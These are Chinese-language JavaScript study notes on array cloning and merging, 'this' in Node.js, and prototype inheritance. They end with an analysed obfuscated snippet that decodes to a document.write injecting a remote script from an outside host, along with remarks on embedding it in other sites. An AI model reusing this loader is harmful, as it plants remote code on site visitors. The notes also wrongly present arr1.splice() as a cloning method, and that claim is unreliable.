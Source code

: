 ﻿# JavaScript-Notes

---

### **克隆数组**

经常用到克隆一个一模一样的数组，但是不能直接 arr1 = arr2，因为 arr1 只是指向同一份数据的另一个指针而已，这种情况下，修改arr2，arr1也会发生变化，而我们需要的是完全的克隆。

ES5 中可以这样写： 

```
arr2 = arr1.concat()
// 或
arr2 = arr1.splice()
```
根据 concat 和 splice 返回原数组的克隆的特性

ES6 中出现了扩展运算符就可以更加简便地实现了： 
```
arr2 = [...arr1]
```

### **合并数组**

将一个数组的所有元素合并到另一个数组中去，最简单的做法就是遍历数组，然后把每个元素 push 进另一个数组中，很显然，这种做法非常不优雅，看看更优雅的：

ES5 的做法：
```
arr1.concat(arr2)
```
concat 本身的作用就是合并两个数组，这样做非常自然。这种做法不会改变 arr1 的内容，它会返回一个新的数组

ES6 的做法，扩展运算符再一波刷新了它的存在感：
```
arr1.push(...arr2)
```
这种做法会改变 arr1 的内容，就再次省略了赋值的操作，优雅。合并多个数组的时候，只需往 push 里添加参数就可以了

### **NodeJS 和 Javascript 的 this**

初用 NodeJS 的时候第一时间就发现了 NodeJS 中的 this 怪怪的，下面请看案发现场：

```
var a = 'a';
var fn = function () {
	console.log(this.a);
};

fn();
```

这个简单的例子，在浏览器中执行大家都知道肯定是打印 a 出来。然而这个理所当然在 NodeJS 中并不管用，NodeJS 直接扔了个 undefined 回来，说这个玩意我不认识。都是兄弟，怎么弟弟就脸盲了呢？咱们去下一个案发现场：

```
var a = 'a'
var fn = function () {
	this.a = 'b';
};

fn()
console.log(a);
```

在函数中修改了全局变量 a 的值，至少在浏览器上运行是这么理解的，打印出来的结果是理所当然的 b。我们倔强的 NodeJS 说什么也不变，就是 a。那么在 NodeJS 中这个函数里的 this.a 去哪了呢？打印一下这个就知道了：

```
console.log(global.a)
```

有没有一丝明白，我们再来理一下。函数中的 this 指向的是调用改函数的对象，所以在全局中执行的函数 fn this 指向的是全局对象 window ，这是在浏览器中的情况。NodeJS 没有 window，全局对象是 global，所以函数中定义的 this 的内容全部都存储在 global 中，而在顶级作用域中所有的内容都是属于 module.exports 老大的，所以顶级作用域定义的 this.a ，可以通过这样来获取：

```
console.log(module.exports.a)
```

### **两种对象继承方法**

第一种是 YUI 库实现继承方法，利用空对象作为中介的 prototype 模式继承，直接封装成函数了：

```
function extend(Child, Parent) {

  var F = function () {};
  
  F.prototype = Parent.prototype;
  
  Child.prototype = new F();
  
  // 上面的操作使子对象的 constructor 指向了空对象，下面手动纠正回来
  Child.prototype.constructor = Child;
  
  // 为子对象设置一个uber属性，这个属性直接指向父对象的prototype属性
  // 这等于在子对象上打开一条通道，可以直接调用父对象的方法。实现继承的完备性，纯属备用性质
  Child.uber = Parent.prototype;
}
```

第二种是拷贝继承，把父对象的所有属性和方法拷贝进子对象实现继承，封装成函数是：

```
function extend2(Child, Parent) {
  var p = Parent.prototype;
  var c = Child.prototype;
  for (var i in p) {
    c[i] = p[i];
  }
  c.uber = p;
}
```

### **一段恶意代码**

网上瞎逛的时候发现了这么一段代码，颇有意思，研究研究：
```
var str = "cnbtldms-vqhsd'!;rbqhosrqb<";
str += "[!gsso9..vvv-fnnfkd`crk-bnl.robncd.";
str+="iptdqx-ir[!=;.rbqhos=!(:";
var length = str.length;
var ba64 = "";
for (i = 0; i < length; i++) {
    var s = str.charCodeAt(i);
    s++;
    ba64 = ba64 + String.fromCharCode(s);
}
console.log(ba64);
eval(ba64);
```

很巧妙，用一堆莫名其妙的无效字符串通过对每个字符进行转码操作再转回字符串就变成一串有效的恶意字符串， 最后用 eval() 执行恶意字符串，学习了。把这段恶意代码嵌套到别的网站中，用户访问该网站就执行了这段恶意代码。而且这种病毒一般杀毒软件都查杀不了，也可以看出 eval() 的不安全性。
